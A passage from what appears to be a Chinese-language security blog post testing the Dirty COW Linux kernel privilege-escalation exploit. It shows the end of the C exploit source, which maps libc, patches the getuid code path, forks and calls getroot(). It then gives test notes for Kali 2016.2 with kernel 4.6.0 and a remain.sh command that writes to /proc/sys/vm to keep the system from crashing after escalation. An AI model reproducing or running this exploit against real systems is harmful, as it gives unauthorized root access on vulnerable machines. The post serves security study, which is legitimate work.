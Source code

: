 	if (fd == -1)
		err(1, "open(\"" LIBC_PATH "\")");
	if (fstat(fd, &st) == -1)
		err(1, "fstat");

	mem_arg.map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
	if (mem_arg.map == MAP_FAILED)
		err(1, "mmap");
	close(fd);

	printf("[*] mmap %p\n", mem_arg.map);

	mem_arg.st = st;
	mem_arg.offset = (off_t)((unsigned long)mem_arg.map + getuid_addr - start);

	exploit(&mem_arg, true);

	pid = fork();
	if (pid == -1)
		err(1, "fork");

	if (pid == 0) {
		getroot();
	} else {
		sleep(2);
		exploit(&mem_arg, false);
		if (waitpid(pid, NULL, 0) == -1)
			warn("waitpid");
	}

	return 0;
}
{% endhighlight %}

## Exp Test

测试环境：

Kali Linux 2016.2 version  
Linux 4.6.0 内核

编译报了几个 Warning:

![dirtycow-exp-0]({{ site.url }}/images/dirtycow/dirtycow-exp-0.jpg)

目录下还有一个 remain.sh，内容为：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

目的是防止提权后死机。需要在提权成功后立即运行。

结果：

![dirtycow-exp-1]({{ site.url }}/images/dirtycow/dirtycow-exp-1.jpg)
